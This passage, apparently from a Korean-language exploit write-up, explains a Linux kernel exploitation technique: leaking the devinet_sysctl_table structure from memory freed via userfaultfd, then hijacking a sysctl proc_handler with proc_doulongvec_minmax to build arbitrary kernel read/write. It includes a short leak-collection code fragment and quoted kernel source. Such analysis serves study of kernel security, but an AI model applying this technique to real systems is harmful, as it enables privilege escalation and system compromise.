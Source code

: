위구조체(`devinet_sysctl_table`)의 `ctl_table` 구조체 안을 보면 여기서 `proc_handler`는 함수 포인터인데 이를 이용해 익스에 사용했다.

```c
void collect_leak()
{
	u64 *pu64 = (u64*)(gdata.alloc+1);

	...

	gdata.devinet_sysctl_forward_ptr = pu64[5];
	gdata.table_header_addr = pu64[0];
}
```

먼저 릭 부분이다. 릭은 위에서 설명한 `userfaultfd`에서 받은 `free`된 메모리를 그냥 읽으면 `devinet_sysctl_table` 구조체가 할당되어 있다.

```c
static struct devinet_sysctl_table {
	struct ctl_table_header *sysctl_header;
	struct ctl_table devinet_vars[__IPV4_DEVCONF_MAX];
} devinet_sysctl = {
	.devinet_vars = {
		DEVINET_SYSCTL_COMPLEX_ENTRY(FORWARDING, "forwarding",
					     devinet_sysctl_forward),
```

`pu64[0]`이 `sysctl_header`의 포인터이고 `pu64[5]`가 `ctl_table`배열의 첫번째 인자의 `proc_handler` 함수 포인터인 `devinet_sysctl_forward`이다.

이 leak된 구조체를 이용하면 `proc_handler`가 함수 포인터이기 때문에 `pc`도 바꿀 수 있다. 익스에서는 aar/aaw를 이 구조체를 이용해 만들었다. `sysctl`의 함수중 `proc_doulongvec_minmax`함수를 이용해서 만들었다.

```c
/**
 * proc_doulongvec_minmax - read a vector of long integers with min/max values
 * @table: the sysctl table
 * @write: %TRUE if this is a write to the sysctl file
 * @buffer: the user buffer
 * @lenp: the size of the user buffer
 * @ppos: file position
 *
 * Reads/writes up to table->maxlen/sizeof(unsigned long) unsigned long
 * values from/to the user buffer, treated as an ASCII string.
 *
 * This routine will ensure the values are within the range specified by
 * table->extra1 (min) and table->extra2 (max).
 *
 * Returns 0 on success.
 */
```

먼저 이 함수의 기능은 `ctf_table`구조체의 `extra1`(min), `extra2`(max)를 이용해 `ctf_table->data`에서 값을 읽거나 쓰는 기능이다.

`sysctl`의 `proc_handler`를 이 함수로 바꿔버리면 사용할 수 있다. aar/aaw를 만드는데 두개의 `sysctl`을 사용한다. 첫번째 `sysctl`로는 두번째 `sysctl`의 `ctl_table->data`를 덮어써 주소를 세팅하고 읽고 쓰는 방법이다.
